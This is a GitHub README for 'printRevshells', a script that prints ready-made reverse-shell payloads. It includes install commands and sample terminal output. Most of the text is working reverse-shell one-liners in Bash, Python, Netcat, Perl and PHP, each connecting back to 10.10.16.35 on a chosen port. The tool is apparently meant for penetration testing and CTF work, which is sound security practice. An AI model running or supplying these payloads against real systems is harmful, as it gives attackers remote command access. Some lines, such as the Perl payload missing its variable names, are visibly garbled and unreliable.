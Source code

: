 ## printRevshells

### Purpose
Got sick of looking for the same payloads every time you want to pop a reverse shell? This simple script will print via the terminal the most common revshell payloads you can find on the web.

There are plenty of payloads online but this script includes:
- Bash
- Python
- Netcat
- Perl
- PHP

The script is easily customizable so you can add your own payloads aswell


### Installation
```
sudo wget https://raw.githubusercontent.com/therodri2/printRevshells/main/printRevshells -O /usr/local/bin/printRevshells
sudo chmod +x /usr/local/bin/printRevshells
username=$(whoami)
sudo chown $username /usr/local/bin/printRevshells

```


### Usage
If you followed the installation instructions, you will have added *printRevshells* to an existing folder included within your PATH.

Also, you will be the owner of the file, so you can execute it even if you are not root :P

Therefore, all you need to do to call this script is to simply type `printRevshells`

Example:

```
shroudri@kali:/tmp$ printRevshells
Bash
bash -i >& /dev/tcp/10.10.16.35/9001 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

Netcat
nc -e /bin/sh 10.10.16.35 9001
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.35 9001 >/tmp/f 

Perl
perl -e 'use Socket;="10.10.16.35";=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(,inet_aton()))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

PHP
php -r '$sock=fsockopen("10.10.16.35",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```
### - Wait! But I want to specify the port!

By default, *if no arguments are provided*, the script will use 9001 as the default port. You can customize this easily on the script.

However, if you want to specify your own port, you can execute the script as follows.
> printRevshells 1234

Which generates the following output:

```
Bash
bash -i >& /dev/tcp/10.10.16.35/1234 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
.....
```
